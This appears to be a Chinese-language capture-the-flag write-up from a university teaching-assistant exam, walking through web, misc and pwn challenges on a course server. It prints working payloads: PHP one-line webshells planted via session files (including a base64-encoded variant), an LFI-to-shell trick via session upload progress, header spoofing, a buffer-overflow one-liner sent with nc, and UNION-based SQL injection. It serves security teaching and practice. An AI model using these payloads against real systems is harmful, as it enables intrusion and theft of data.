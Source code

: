 ```yaml
---
title : 107 ta exam writeup
tags: 大學,助教,安全程式
---
```


# Misc
## Hidden Domain
crt.sh會記錄所有申請https的domain
使用% 找子域名
![](https://i.imgur.com/rmXoVxa.png)
找到有一個很長的域名有簽https
![](https://i.imgur.com/S3GxAYn.png)
打開
![](https://i.imgur.com/BpboCPk.png)


## 一張圖片
下載下來用小畫家 填滿
![](https://i.imgur.com/CzAzw1g.png)
![](https://i.imgur.com/41K0wEt.png)

## Easy Reverse
strings 下來 拚湊一下
![](https://i.imgur.com/Pq1HOW9.png)
`CTF{CTF{easyisntit}`


# 網頁
## Jump 10101
`curl http://140.134.25.138:10101/ -i`
![](https://i.imgur.com/VkuNP7a.png)
發現他轉跳到index0.php
`curl http://140.134.25.138:10101/index0.php -i`
多跳幾次

![](https://i.imgur.com/NIBTOBP.png)




## Session Easy 10102
只是把session 給他就拿到flag了
http://140.134.25.138:10102/?fox=自己session_id

![](https://i.imgur.com/7fJYfBL.png)


## Session Get Shell 10103
foxs 放 一句話木馬
fox 放 /tmp/sess_自己的session
cmd 參數放 指令
http://140.134.25.138:10103/?foxs=%3C?php%20system($_GET[%27cmd%27]);?%3E&fox=/tmp/sess_bhfmu5o6dk63llt5n1n83vitth&cmd=ls%20/

![](https://i.imgur.com/KsVEFk6.png)

再來把cmd 改 ls /flag
![](https://i.imgur.com/NECi0Ek.png)

再來改 cmd 改 cat /flag/flag.txt
![](https://i.imgur.com/wOVOj3G.png)


## Session Hard 10104 極難
取自Hitcon 2018想法
題目發現 session是關閉的
所以要用特殊方式去觸發session打開
php 有個東西叫 session.upload_progress
是打開的
所以只要用
`PHP_SESSION_UPLOAD_PROGRESS` 去上傳檔案
會打開php session

`curl http://140.134.25.138:10104/ -H 'Cookie: PHPSESSID=fox' -F 'PHP_SESSION_UPLOAD_PROGRESS=foxsarecute'  -F 'file=@./上傳檔案路徑'`

注意：`session.upload_progress.cleanup`是打開的
過一陣子session會被刪掉

![](https://i.imgur.com/IgsPPF0.png)

**這漏洞讓LFI=GET SHELL**

參考資料：https://blog.orange.tw/2018/10/hitcon-ctf-2018-one-line-php-challenge.html?fbclid=IwAR0WFn8hqcSCLuf6Bd-hNYeyZW27zA2uNrIdNpauDGU9vxeXBc2491mgs1Q

## flask在搞? 10105 
沒有過濾 `../`跳脫資料夾導致資料外洩

用nc
![](https://i.imgur.com/apFEyO2.png)

## Write Script 10106
經觀察header 發現他有跟我講下次用的method
![](https://i.imgur.com/7QJJdUp.png)


寫python爬蟲 來自動跑不同http method

[requests自訂method](http://docs.python-requests.org/en/master/user/advanced/)
```python=
from requests import Request, Session
import requests
s = Session()
url ="http://140.134.25.138:10106/"
a=requests.get(url)
next_method = a.headers['Next_Method']
flag = a.text
while True:
        req = Request(next_method, url)
        prepped = s.prepare_request(req)
        settings = s.merge_environment_settings(prepped.url, None, None, None, None)
        resp = s.send(prepped, **settings)
        flag += resp.text
        if resp.text=="}":
                print (flag)
                break
        next_method = resp.headers['Next_Method']
```

## APK 10107
安裝apk 
![](https://i.imgur.com/lDKE0jO.png)

攔封包
![](https://i.imgur.com/hV4aWER.png)

## JS so HARD 10108
查看原始碼發現一個DATA
和一個自訂一javascript

![](https://i.imgur.com/FBCqZVx.png)

打開js看起來是用來解碼的

![](https://i.imgur.com/YF6kaJO.png)

經google發現 他是用packjs加密了
去找[unpack js](http://matthewfl.com/unPacker.html)

![](https://i.imgur.com/tUKbU8Y.png)

得到一串js
經解析 看到最後有一段json 
把它存到另一個變數看看
![](https://i.imgur.com/1W34iv4.png)

到console把剛剛修改的js覆蓋 在執行一次
最後把變數拔出來
![](https://i.imgur.com/RH4fdUT.png)

## Fake IP 10109
開場 又是這個
![](https://i.imgur.com/B5d1mfE.png)

修改`X-Forwarded-For: 127.0.0.1`
發現
![](https://i.imgur.com/iB2A7lI.png)

修改Host 
![](https://i.imgur.com/diCJ4qL.png)


## Session Get Shell 2 10110
發現 要從 session id下手
結果發現特殊符號不能直接拿來當session id

把一句話木馬 拿去base64
`<?php system($_GET['cmd']);?>d`
d是為了讓base64出來解果不出現`=`
編碼後
`PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz5k`
丟到 sessionid
![](https://i.imgur.com/3MeFkoT.png)

確定檔案上去了
http://140.134.25.138:10110/?fox=/tmp/sess_PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz5k
![](https://i.imgur.com/T0hDRl6.png)


使用php stream base64 解碼
http://140.134.25.138:10110/?fox=php://filter/convert.base64-decode/resource=/tmp/sess_PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz5k&cmd=ls
![](https://i.imgur.com/xaorkdj.png)

最後 `ls /`
http://140.134.25.138:10110/?fox=php://filter/convert.base64-decode/resource=/tmp/sess_PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz5k&cmd=cat%20/flag/flag.txt
找到flag
![](https://i.imgur.com/2fFYBls.png)

## pwn 10111
確定 debug位子
![](https://i.imgur.com/SUC2guQ.png)
送過去
`python -c "print('a'*0x18+'\x66\x07\x40\x00\x00\x00\x00\x00')" -| nc 140.134.25.138 10111
`
![](https://i.imgur.com/e3583xK.png)


## LFI 10122
LFI漏洞
用php stream 拿到原始碼
http://140.134.25.138:10122/?page=php://filter/convert.base64-encode/resource=index.php
![](https://i.imgur.com/LdNb5e1.png)
拿去decode
![](https://i.imgur.com/iWP4KqR.png)

## SQL Injection II 10113
先確定 資料庫名稱
`'  union select 'a','a', schema_name FROM information_schema.schemata;#`
![](https://i.imgur.com/zCIVuUI.png)

再確定表格名稱
`a'  union select 'a','a', table_name from information_schema.tables where table_schema = 'ctf';`
![](https://i.imgur.com/jKKMdOp.png)

最後找到欄位
`'  union select 'a','a', column_name  FROM information_schema.columns WHERE table_name = 'ctfffff';`
![](https://i.imgur.com/GPvTqmV.png)

`'  union select 'a','a', flagggggggggggg from ctfffff ;`
![](https://i.imgur.com/dO3DNiv.png)


